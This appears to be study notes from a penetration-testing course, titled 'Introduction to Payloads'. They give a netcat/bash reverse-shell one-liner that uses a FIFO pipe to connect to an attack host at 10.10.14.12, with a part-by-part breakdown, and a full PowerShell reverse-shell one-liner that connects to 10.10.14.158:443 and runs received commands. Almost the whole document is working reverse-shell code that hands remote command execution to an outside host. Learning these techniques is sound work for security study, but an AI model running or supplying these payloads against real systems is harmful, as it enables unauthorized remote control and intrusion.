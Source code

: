 # Introduction to Payloads

## Netcat/Bash Reverse Shell One-liner

One-Line :
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f

Details :

rm -f /tmp/f; 
-> Removes the /tmp/f file if it exists

mkfifo /tmp/f; 
-> Makes a FIFO named pipe file

cat /tmp/f | 
-> Concatenates the FIFO named pipe file /tmp/f to the standard input of the next command

/bin/bash -i 2>&1 | 
-> Specifies the command language interpreter using the -i option to ensure the shell is interactive

nc 10.10.14.12 7777 > /tmp/f  
-> Uses Netcat to send a connection to our attack host 10.10.14.12 listening on port 7777

## PowerShell One-liner Explained

powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

